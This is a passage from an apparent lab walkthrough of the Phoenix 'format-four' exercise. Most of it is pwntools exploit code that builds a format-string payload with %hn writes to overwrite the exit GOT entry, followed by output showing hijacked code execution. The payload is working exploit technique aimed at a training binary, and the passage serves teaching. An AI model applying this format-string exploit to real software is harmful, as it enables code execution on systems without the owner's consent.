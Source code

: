 ```
middle += "%hn"

# Beginning of the payload : go to the correct offset to start reading on correct address in stack
# print(len(middle)) # = 32
payload += "%x"*6 + "aaaa" # 48 bytes read, 16 bytes written + 32 for the middle = 48 -> OK
len_intro = 6*8+4

# Write again the payload by taking into account the start of the payload
payload += "%{}x".format(p0 - (len_pad + len_intro))
payload += "%hn"
payload += "%{}x".format(0x10000 - p0 + p1) # Use overflow and the fact that for halfwords, 0x10000 = 0 (2 bytes)
payload += "%hn"
payload += "%{}x".format(0x10000 - p1) # We want to write 0x0000
payload += "%hn"
payload += "%hn"

payload += "b"*8
payload += p64(exit_got_addr)
payload += "c"*8
payload += p64(exit_got_addr+2)
payload += "d"*8
payload += p64(exit_got_addr+4)
payload += p64(exit_got_addr+6)

p = process('/opt/phoenix/amd64/format-four')
p.recvline()
p.sendline(payload)
p.interactive()
```

Here is the result :
```
user@phoenix-amd64:~$ python test.py 
[+] Starting local process '/opt/phoenix/amd64/format-four': pid 1455
[*] Switching to interactive mode
[...]
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
[...]
```

Whew ! I think this example illustrates well how more difficult the implementation of an exploit can be in practice. The theory behind this pwn is not hard : but implementing it is harder. Happy hacking :bomb: .
